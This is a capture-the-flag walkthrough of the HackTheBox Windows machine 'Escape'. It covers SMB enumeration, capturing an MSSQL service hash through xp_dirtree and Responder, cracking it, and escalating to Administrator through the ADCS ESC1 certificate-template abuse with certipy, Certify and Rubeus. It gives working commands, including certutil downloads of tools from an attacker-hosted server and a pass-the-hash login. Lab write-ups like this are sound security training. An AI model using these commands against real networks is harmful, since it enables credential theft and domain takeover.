


# Summary
`Escape` is a Medium level difficulty Windows machine from [HackTheBox](https://app.hackthebox.com/machines/Escape). It's running `Active Directory` services, a `SMB` share and a `Microsoft SQL Server`. We found a file meant for employees in `SMB` share which can be authenticated anonymously. We'll get the credentials of a public user which can be used to login `Microsoft SQL Server`. In `MSSQL`, they've enabled a function that shouldn't be enabled or shouldn't allowed public users to run. By using this misconfiguration, we get the hash of a service user. After cracking the hash using `john`, we used `evil-winrm` to get foothold as a service user. And then we've found that a domain user has wrongfully used their password instead of their username to authenticate in the backup file of `MSSQL` log file. For privilege escalation, there's a misconfigured certificate template(**ESC1**) which we used to get the hash of the administrator.


# Initial Scan
We will run a `nmap` scan on this machine. Since we know it's a Windows machine, we need to use `-Pn` flag.
```nmap
nmap -p- -sV -sC 10.10.11.202 -Pn
```

```Output
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-11 16:22:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-11T16:24:28+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-04-11T13:18:11
|_Not valid after:  2053-04-11T13:18:11
|_ssl-date: 2023-04-11T16:24:27+00:00; +8h00m01s from scanner time.
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-11T16:24:27+00:00; +8h00m01s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-11T16:24:30+00:00; +8h00m01s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  unknown
49712/tcp open  msrpc         Microsoft Windows RPC
61409/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h00m00s, deviation: 0s, median: 8h00m00s
| smb2-time: 
|   date: 2023-04-11T16:23:47
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
```

We got the domain name of the machine, `sequel.htb` which we'll be adding to our `/etc/hosts` file. 

We can also see a `smb` share on port 139 & 445, `winrm` service on port 5985, `Microsoft SQL Server` on port 1433 and `Active Directory` services. 


# Enumerating SMB Shares
Now, we can start enumerating services. We'll use `smbmap` to enumerate `smb` service. 

We have two **READ ONLY** shares called *Public* and *IPC$*. Whenever *IPC\$* is readable, we can use `impacket-lookupsid` to get a list of usernames in the system. 


Names that has **SidTypeUser** as a label is the usernames that's in the system. After enumerating usernames by using *IPC$*, we also need to enumerate *Public* share that's readable by anonymous users.


We'll download the *PDF* file to see the contents inside since we can't open it on `smb` server. 

So, they've provided username and passwords for `mssql` and it looks like the account doesn't have much privileges considering it's for new hired employees.


# Exploiting MSSQL
We can use `impacket-mssqlclient` to authenticate `mssql` server with the credentials provided by the *PDF* file.


[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) has an article for pentesting and enumerating `mssql` servers. After checking the permissions to see who can run the `mssql` functions, we can see that `xp_dirtree` can be called by the public, basically everyone who's logged in.  
`xp_dirtree` is **an undocumented and unsupported command** that returns a hierarchical directory listing of the specified path in the file system. We can use it to access a `smb` server hosted by us to get the hash of the user running the service. In order to host a `smb` share on our machine, we can use either `responder` or `impacket-smbserver`. We'll be using `responder` here - 
```bash
sudo responder -I tun0 -v
```

By running `xp_dirtree '\\my-ip\anything'` on the `mssqlclient` , we'll get the hash of the user _sql_svc_ on your `responder` console like this -


Since we got the hash, we can save it to a file and crack it with `JohnTheRipper`. The hash is saved in the sql_svc_hash file - 


# Getting foothold and User flag
Now, we have both the username and password so we could try to authenticate a service. Since port 5985 (*winrm*) is open, we could try to authenticate it by using `evil-winrm`.


After browsing through the directories, we've found an interesting file in the directory `C:\SQLServer\Logs`. It looks like user _Ryan.Cooper_ has tried to login `mssql` with their passwords instead of their username. 


We will use them as username and password for repectively `evil-winrm` since we can see that there's a user called _Ryan.Cooper_ in the system.


We've successfully got the shell as the user that has a flag. We can see the user flag in `C:\Users\Ryan.Cooper\Desktop`.


# Enumerating Active Directory Certificate Services
We ran `winpeas.exe` for local privilege escalation but nothing interesting came up. So my focus shifted towards Active Directory. We used a tool called [adPEAS](https://github.com/61106960/adPEAS) to enumerate Active Directory. We'll download it to our machine first and then download it to the victim machine from our machine.
```bash
wget https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS-Light.ps1   # Download to attacker machine

python3 -m http.server 80   # Host a webserver on attacker machine

certutil -urlcache -f http://10.10.14.62/adPEAS-Light.ps1 adpeas.ps1   # Download it to victim machine

. .\adpeas.ps1   # Dot sourcing the powershell script to use it

Invoke-adPEAS   # Enumerate everything related to the AD
```


As we can see here, permissions for template **UserAuthentication** is set to **GenericAll** which means every domain user can request a ticket using that template. So, our goal here would be to request a ticket of _Administrator_ and then use it to authenticate as _Administrator_. This misconfigured certificate template is often noted as **ESC1** 


# Exploiting ADCS ESC1
We can choose different tools for this task. The procedure is identical, the only difference is that one method needs an executable or two on the victim machine and the other method doesn't need any file. Both of these tools can also be used to enumerate AD certificate services so I'll also include how do we use these tools to enumerate.

## certipy
`certipy` is a command-line tool for enumerating and exploiting **Active Directory Certificate Services**. We can get it either from their [GitHub Repository](https://github.com/ly4k/Certipy) or install it with our package installer - 
```bash
sudo apt-get update
sudo apt install certipy-ad
```

We can use `certipy` to enumerate the vulnerable certificates like this -
```Certipy
certipy find -u Ryan.Cooper@escape.htb -p '$$PASSWORD HERE$$' -dc-ip 10.10.11.202 -vulnerable -stdout
```
Here's the output -

If we didn't use `-stdout` flag, we'll get 3 files instead, a plaintext `.txt` file, a `JSON` file and a `zip` to be used for `BloodHound`. From these outputs, we'll get template name, certificate authorities' names which will be needed for the next step.
```
Template Name            => UserAuthentication
Certificate Authorities  => sequel-DC-CA
DNS Name                 => dc.sequel.htb
```

We'll use use `req` command to request a new certificate for _Administrator_ using the informations we got from the last step.
```Certipy
certipy req -username Ryan.Cooper@sequel.htb -password $$PASSWORD HERE$$ -ca sequel-DC-CA -template UserAuthentication -target dc.sequel.htb -upn administrator@sequel.htb
```
What this command does is that it requests a new certificate for another user supplied by `-upn`(User Principal Name) flag from the DC using the certificate template that's misconfigured, which is **UserAuthentication** in our case.

If we've done everything correctly, we'd get a `.pfx` certificate file which can be used to authenticate the DC using the `auth` command. 
```Certipy
certipy auth -pfx administrator.pfx -domain sequel.htb -username administrator -dc-ip 10.10.11.202
```
Sometimes, our system time and the time on the DC are different. So, we could use `ntpdate` or `faketime` to sync the time between our system clock and the DC clock. If the clocks are synced up and the certificate is a correct one, we'll get a NTLM hash of _Administrator_.

We could use `evil-winrm` again to perform a **PassTheHash** attack on the DC. NTLM hashes are in the format of **LM:NT** and we only need **NT** hashes to authenticate. Therefore, we'll use only the latter half of the hash.
```evil-winrm
evil-winrm -i 10.10.11.202 --user 'Administrator' -hash '$$NT HASH HERE$$'
```


## Certify.exe + Rubeus.exe
`Certify.exe` and `Rubeus.exe` are both C# tools used for Active Directory. [Certify.exe](https://github.com/GhostPack/Certify) is intended for enumerating and abusing Active Directory Certificate Services and [Rubeus.exe](https://github.com/GhostPack/Rubeus) is for abusing Kerberos interactions. We can get pre-compiled executables from this [repository](https://github.com/Flangvik/SharpCollection) 

We'll just download those to our machine first just in case if we needed those in the future. After we've downloaded it to our machine, we'll host a web server with python so that the victim machine could download those to their machine. 
```bash
python3 -m http.server 80    # Attacker machine

certutil -urlcache -f http://Attacker-IP/Certify.exe certify.exe   # Victim machine
certutil -urlcache -f http://Attacker-IP/Rubeus.exe rubeus.exe
```

With `Certify.exe`, we can find vulnerable certificate services by simply running - 
```Powershell
./Certify.exe find /vulnerable
```
and here's the output -


We can request a certificate as _Administrator_ by using `request` command - 
```PowerShell
./certify.exe request /ca:sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
If the template is available for us to request, we'll get a `.pem` certificate in stdout like this - 


We'll copy the `.pem` certificate to our Linux machine where we'll use `openssl` to convert the certificate to `.pfx` format.
```Bash
openssl pkcs12 -in certificate.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out certificate.pfx
```
Now, we have a `.pfx` certificate as _Administrator_ that can be used to authenticate DC and get the credentials. We could use `certipy` for this stage like I previously demonstrated. But for now, I'll use `Rebeus.exe` to get _Administrator_ credentials. 

We'll need `certificate.pfx` on the victim machine if we're going to use `Rubeus.exe`. We'll use `python3` for web server and `certutil` for downloading to the machine. After we've finished transfering files to the victim machine, we could now use `Rebeus.exe` to interact with Kerberos.
```PowerShell
./rubeus.exe asktgt /user:administrator /certificate:cert.pfx /password:%%PASSWORD_FOR_PFX%% /getcredentials
```
We should get a Kerberos ticket and a NTLM hash that can be used to perform **PTH** attack using `evil-winrm`. Ideally, we could perform **Pass The Ticket** by using `/ptt` option instead of `/getcredentials` but on `evil-winrm`, tickets only get imported and didn't get pass so we don't get access as the _Administrator_. 


# References
1. [ADCS Domain Escalation by HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
2. [Abusing ESC1](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse/esc1)
3. [HackTheBox Support Walkthrough by 0xdf](https://0xdf.gitlab.io/2022/12/17/htb-support.html)
